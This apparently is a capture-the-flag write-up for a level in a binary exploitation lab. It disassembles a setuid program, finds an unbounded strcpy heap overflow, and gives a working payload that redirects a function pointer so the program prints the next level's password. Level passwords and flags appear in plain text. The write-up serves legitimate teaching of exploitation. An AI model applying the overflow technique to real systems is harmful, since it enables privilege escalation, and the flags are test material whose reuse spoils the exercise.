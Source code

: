 # Level 6

## Requirements

- None

## Walkthrough

1. Login
    
    ```bash
    > ssh -p 4242 level6@192.168.1.66
    Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    
    GCC stack protector support:            Enabled
      Strict user copy checks:                Disabled
      Restrict /dev/mem access:               Enabled
      Restrict /dev/kmem access:              Enabled
      grsecurity / PaX: No GRKERNSEC
      Kernel Heap Hardening: No KERNHEAP
     System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
    ```
    
2. Check file
    
    ```bash
    > ls -l
    total 8
    -rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
    
    > ./level6
    Segmentation fault (core dumped)
    
    > ./level6 qwe
    Nope
    ```
    
3. Analyse using GDB
    
    ```bash
    > gdb level6
    ...
    
    > (gdb) info functions
    All defined functions:
    
    Non-debugging symbols:
    0x080482f4  _init
    0x08048340  strcpy
    0x08048340  strcpy@plt
    0x08048350  malloc
    0x08048350  malloc@plt
    0x08048360  puts
    0x08048360  puts@plt
    0x08048370  system
    0x08048370  system@plt
    0x08048380  __gmon_start__
    0x08048380  __gmon_start__@plt
    0x08048390  __libc_start_main
    0x08048390  __libc_start_main@plt
    0x080483a0  _start
    0x080483d0  __do_global_dtors_aux
    0x08048430  frame_dummy
    0x08048454  n
    0x08048468  m
    0x0804847c  main
    0x080484e0  __libc_csu_init
    0x08048550  __libc_csu_fini
    0x08048552  __i686.get_pc_thunk.bx
    0x08048560  __do_global_ctors_aux
    0x0804858c  _fini
    ```
    
4. We have 3 functions here; `main`, `m` and `n`. 
    
    ```bash
    > (gdb) disas main
    Dump of assembler code for function main:
       0x0804847c <+0>:	push   %ebp
       0x0804847d <+1>:	mov    %esp,%ebp
       0x0804847f <+3>:	and    $0xfffffff0,%esp
       0x08048482 <+6>:	sub    $0x20,%esp
       0x08048485 <+9>:	movl   $0x40,(%esp)
       0x0804848c <+16>:	call   0x8048350 <malloc@plt>
       0x08048491 <+21>:	mov    %eax,0x1c(%esp)
       0x08048495 <+25>:	movl   $0x4,(%esp)
       0x0804849c <+32>:	call   0x8048350 <malloc@plt>
       0x080484a1 <+37>:	mov    %eax,0x18(%esp)
       0x080484a5 <+41>:	mov    $0x8048468,%edx
       0x080484aa <+46>:	mov    0x18(%esp),%eax
       0x080484ae <+50>:	mov    %edx,(%eax)
       0x080484b0 <+52>:	mov    0xc(%ebp),%eax
       0x080484b3 <+55>:	add    $0x4,%eax
       0x080484b6 <+58>:	mov    (%eax),%eax
       0x080484b8 <+60>:	mov    %eax,%edx
       0x080484ba <+62>:	mov    0x1c(%esp),%eax
       0x080484be <+66>:	mov    %edx,0x4(%esp)
       0x080484c2 <+70>:	mov    %eax,(%esp)
       0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
       0x080484ca <+78>:	mov    0x18(%esp),%eax
       0x080484ce <+82>:	mov    (%eax),%eax
       0x080484d0 <+84>:	call   *%eax
       0x080484d2 <+86>:	leave  
       0x080484d3 <+87>:	ret    
    End of assembler dump.
    
    > (gdb) disas m
    Dump of assembler code for function m:
       0x08048468 <+0>:	push   %ebp
       0x08048469 <+1>:	mov    %esp,%ebp
       0x0804846b <+3>:	sub    $0x18,%esp
       0x0804846e <+6>:	movl   $0x80485d1,(%esp)
       0x08048475 <+13>:	call   0x8048360 <puts@plt>
       0x0804847a <+18>:	leave  
       0x0804847b <+19>:	ret    
    End of assembler dump.
    
    > (gdb) disas n
    Dump of assembler code for function n:
       0x08048454 <+0>:	push   %ebp
       0x08048455 <+1>:	mov    %esp,%ebp
       0x08048457 <+3>:	sub    $0x18,%esp
       0x0804845a <+6>:	movl   $0x80485b0,(%esp)
       0x08048461 <+13>:	call   0x8048370 <system@plt>
       0x08048466 <+18>:	leave  
       0x08048467 <+19>:	ret    
    End of assembler dump.
    ```
    
5. Pseudo-code using IDA.
    
    ```c
    int m()
    {
      return puts("Nope");
    }
    
    int n()
    {
      return system("/bin/cat /home/user/level7/.pass");
    }
    
    int main(int argc, const char **argv, const char **envp)
    {
      int (**fn)(void); // [esp+18h] [ebp-8h]
      int buffer; // [esp+1Ch] [ebp-4h]
    
      buffer = malloc(64);
      fn = (int (**)(void))malloc(4);
      *fn = m;
      strcpy(buffer, argv[1]);
      return (*fn)();
    }
    ```
    
6. We have a pointer to the function `m`, however, we want it to point to the function `n`. We also have a call to `strcpy` which can be used to overwrite memory since no size limitation is provided (like `strncpy`). 
Since we plan to exploit an overflow (again), let’s use our classic pattern matching.
    
    ```bash
    
    > (gdb) r "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
    Starting program: /home/user/level6/level6 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
    
    Program received signal SIGSEGV, Segmentation fault.
    0x53535353 in ?? ()
    ```
    
7. Fine, `0x53535353 = SSSS`, so it looks like we have a padding of `72` bytes.
    
    ```bash
    > python -c "print len('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR')"
    72
    ```
    
8. Now, thanks to our first GDB analyse, we know that the function `n` is located at `0x08048454` therefore, let’s add it to our payload, and overwrite the EIP.
    
    ```bash
    > ./level6 $(python -c "print 'A'*72 + '\x54\x84\x04\x08'")
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
    ```
    

## Documentation

- See previous levels
    
    ```jsx
    //
    // This file was generated by the Retargetable Decompiler
    // Website: https://retdec.com
    //
    
    #include <stdint.h>
    #include <stdlib.h>
    #include <string.h>
    
    // ------------------------ Functions -------------------------
    
    // Address range: 0x804847c - 0x80484d4
    int main(int argc, char ** argv) {
        int32_t * mem = malloc(64); // 0x804848c
        int32_t * mem2 = malloc(4); // 0x804849c
        *mem2 = 0x8048468;
        strcpy((char *)mem, (char *)*(int32_t *)(argc + 4));
        return *mem2;
    }
    
    // --------------------- Meta-Information ---------------------
    
    // Detected compiler/packer: gcc (4.6.3)
    // Detected functions: 1
    
    ```
